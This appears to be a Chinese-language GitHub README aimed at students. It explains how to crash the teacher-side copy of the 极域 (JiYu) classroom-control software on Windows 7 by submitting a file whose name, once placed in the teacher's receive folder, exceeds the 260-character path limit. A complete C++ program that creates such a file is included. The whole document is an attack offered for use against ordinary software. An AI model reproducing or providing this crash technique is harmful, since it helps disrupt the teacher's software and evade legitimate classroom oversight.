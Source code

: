 # 本思路适用windows7 系统因为好像windows10以后没有文件名限制了

----------


先说思路：因为windows 7的默认最长文件名长度为260，而这个长度，是带目录的长度，比如你放在C:\1111.txt的文件名长度应该是11，而你放在(桌面)C:\Users\Administrator\Desktop\1111.txt的文件名长度肯定是大于11的，而我们正好可以利用这个漏洞


> 如何利用这个漏洞？


老师端极域的文件默认接受路径肯定不是根目录(除非老师颠了，给了极域管理员并且手动调成了一个盘根目录)，但是我们本地文件创建可以在根目录,所以我们可以在C盘根目录运行使用底下的程序来创建一个文件名长度为250的文件，并且提交到老师那里

老师端的极域就会因为处理不了这么长的文件名而爆炸了
 

----------



```cpp
#include<bits/stdc++.h>
#include<windows.h>
using namespace std;
const int MAX_LENGTH=250;
int main(){
	string s="";
	srand(time(0));
	for(int i=1;i<=MAX_LENGTH;i++){
		s+=(rand()%10)+'0';
	}
	s+=".txt";
	string command="echo >"+s;
	system(command.c_str());
	return 0;
}
```
